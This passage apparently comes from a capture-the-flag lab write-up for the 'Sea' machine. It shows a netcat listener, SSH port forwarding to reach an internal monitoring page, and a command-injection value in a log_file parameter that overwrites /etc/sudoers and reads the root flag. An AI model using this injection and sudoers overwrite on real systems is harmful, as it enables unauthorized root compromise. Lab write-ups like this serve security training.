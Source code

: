We can see a connection, so open a netcat listener and connect to the port.

```bash
nc -lvp 8888
```

```bash
ssh -L 8888:localhost:8080 amay@10.10.11.28
```

Go to that port and log as amay. Here we can find a developer system monitoring page, so we have some more privileges here.

<p>
    <img src="assets/img/writeupImgs/sea/1_JV_G7qaz_FzuAlo14YprvQ.webp" width="700"
    alt="Descripción">
</p>

We can use burp here, and set this to read flag at **/root/root.txt** whit the following command.

```bash
log_file=/root/root.txt;cp/dev/shm/sudoers> /etc/sudoers&analyze_log
```

<p>